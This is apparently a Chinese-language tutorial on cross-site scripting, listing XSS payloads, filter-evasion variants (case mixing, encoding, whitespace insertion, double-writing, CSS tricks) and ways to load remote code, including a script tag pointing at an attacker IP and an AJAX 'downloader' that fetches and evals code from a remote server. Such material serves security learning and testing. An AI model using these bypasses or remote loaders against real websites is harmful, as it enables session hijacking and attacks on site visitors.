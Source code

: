 #### xss构造

1. 利用<>构造HTML标签和JS<script>标签

    提交`<script>alert(/xss/)</script>`，触发xss攻击

2. 使用JavaScript以为协议方式构造xss

    javascript:alert(/xss/)

    `<a href="javascript:alert(/xss/)">touch me!</a>`

3. 产生的事件

    网页中会发生很多事件，JS可以对这些事件进行响应，可以通过事件触发JS函数，触发XSS

    1. windows事件，对windows对象触发的事件

    2. form事件，HTML表单的动作触发事件

    3. keyboard事件，键盘按键

    4. mouse事件，鼠标或类似用户动作触发的事件

    5. meida事件，由多媒体触发的事件

        鼠标悬停图片触发XSS：<img src='./smile.jpg' onmouseover='alert(/xss/)'>

        点击键盘任意按键触发XSS：`<input type="text" onkeydown="alert(/xss/)">`

        `<input type="text" onkeyup="alert(/xss/)">`

        `<input type="button" onclick="alert(/xss/)">`

    6. 其他标签和手法

        `<svg onload="alert"(/xss/)">`

        `<input onfocus=alert(/xss/) autofucus>`

        

#### XSS的变形

通过构造xss代码进行各种变形，以绕过xss过滤器的检测

1. 大小写转换，将payload进行大小写转化，如：

    `<Img sRc='#' Onerror="alert(/xss/)" />`

    `<a hREf="javaScript:alert(/xss/)">click me</a>`

2. 引号的使用，HTML对引号的使用不敏感，但是某些过滤函数比较严格

    `<img src="#" onerror="alert(/xss/)"/>`

3. /代替空格，可以利用左斜线代替空格

    `<Img/sRc='#'/Onerror='alert(/xss/)' />`

4. 回车，可以在一些位置添加Tab（水平制表符）和回车符，来绕过关键字检测，很难检测到

    `<A hREf="j

    a	v

    a	s

    c	R

    i	p

    t	:

    alert(/xss/)">click me!</a>`

5. 对标签属性值进行转码，用来绕过过滤，对应编码如下：

    | 字母 | ASCII码 | 十进制编码 | 十六进制编码 |
    | ---- | ------- | ---------- | ------------ |
    | a    | 97      | &#97;      | &#x61;       |
    | e    | 101     | &#101;     | &#x65;       |

    编码之后显示：

    `<A hREf="j&#97;v&#x61;script:alert(/xss/)">click me!</a>`

    - 可以将一下任意字符插到任意位置：

      tab	&#9

      换行	&#10

      回车	&#13

    - 也可以将以下字符插入到头部位置：

      SOH	&#01

      STX	&#02

      编码之后的样子

    - 编码之后的样子：

      `<A hREf="&#01;j&#97;v&#x61;s&#9;c&#10;r&#13;ipt:alert(/xss/)">click me!</a>`

6. 拆分跨站

    `<script>z='alert'</script>`

    `<script>z=z+'(/xss/)'</script>`

    `<script>eval(z)</script>`

7. 双写绕过

    `<script>`

    `<scr<script>ipt>`

8. CSS中的变形

    - 使用全角字符

      width:ｅｘｐｒｅｓｓｉｏｎ(alert(/xss/))

    - 注释会被浏览器忽略

      width:expr/*~*/ession(alert(/x~s~s))

    - 样式表中的`[\]`和`[0]`

      `<style>@import	'javasc\ri\0pt:alert("xss")';</style>`


#### shellcode的调用

shellcode就是利用漏洞所执行的代码，完整的xss攻击会将shellcode存放在一定的地方，然后漏洞触发，调用shellcode

1. 远程调用js

   将js代码单独放在一个文件夹内，存放在一个可以网络访问到的服务器上，通过http协议远程加载该脚本，如：

   `<script src="IP地址/XSS-TEST/normal/xss.js"></script>`

   这是最常见的方式，XSS.JS代码内容：`alert('xss.js');`

2. windows.location.hash

   我们也可以使用js中的windows.location.hash方法获取浏览器的URL地址栏的XSS代码，windows.location.hash会获取URL中 # 后面的内容，例如`http://domain.com/index.php#AJEST`，windows.location.hash的值就是#AJEST

   构造的代码如下：

   `?submit=submit&xsscode=<script>eval(location.hash.substr(1))</script>#alert(/This is windows.location.hash/)`，提交到测试页面xss.php

3. XSS downloader

   XSS下载器就是将XSS代码写到网页中，然后通过AJAX技术，取得网页中的XSS代码。在使用XSS Downloader之前需要一个我们自己的页面，xss_downloader.php，内容如下：

   `~~~~BOF|alert(/xss/)|EOF~~~~~~~~~~`

   常见的下载器代码如下：

   `<script>
   function XSS() {
   	if (window.XMLHttpRequest) {
   		a = new XMLHttpRequest() ;
   	}else if (window.ActiveXObject) {
   		a = new ActiveXObject( "Microsoft.XMLHTTP");
   	else {return;}
   	a.open('get',' http://IP/目录/xss_downloader.php',false) ;
   	a.send() ;
   	b=a.responseText;
   	eval(unescape(b.substring(b.indexOf('BOF|')+4,b.indexOf('|EOF'))));}
   XSS() ;
   </script>`

   - 注意：Ajax 受同源策略的限制，为了解决这个问题，我们需要在服务端代码中加入几句代码：

     `<?php`

     `header ('Access-Control-Allow-Origin: *') ;`

     `header ('Access-Control-Allow-Headers: Origin, X-Requested-with， Content -Type，Accept') ;`

     `?>`

4. 备选存储技术

   我们可以把shellcode存储在客户端本地域中，比如HTTP cookie、flash共享对象、userdata、localstorage等

5. XSS神器，beef，是一款XSS漏洞利用平台，使用beef可以进行浏览器劫持